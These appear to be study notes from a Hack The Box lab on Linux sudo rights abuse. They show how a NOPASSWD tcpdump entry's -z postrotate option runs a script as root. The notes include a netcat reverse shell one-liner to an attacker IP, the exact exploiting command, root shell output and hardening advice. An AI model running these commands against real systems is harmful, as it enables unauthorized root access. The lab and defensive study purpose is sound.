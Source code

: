 # Sudo Rights Abuse

any rights entries with the `NOPASSWD` option can be seen without entering a password.

```shell-session
sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

```shell-session
man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands.

```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

create the shell script `.test` containing a reverse shell and execute it

Make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

```shell-session
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

```shell-session
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

```shell-session
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

1. Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).
2. Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.

## Assessment

What command can the htb-student user run as root?

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>tried reverse shell with sudo but did not get the root priv for some reason</p></figcaption></figure>
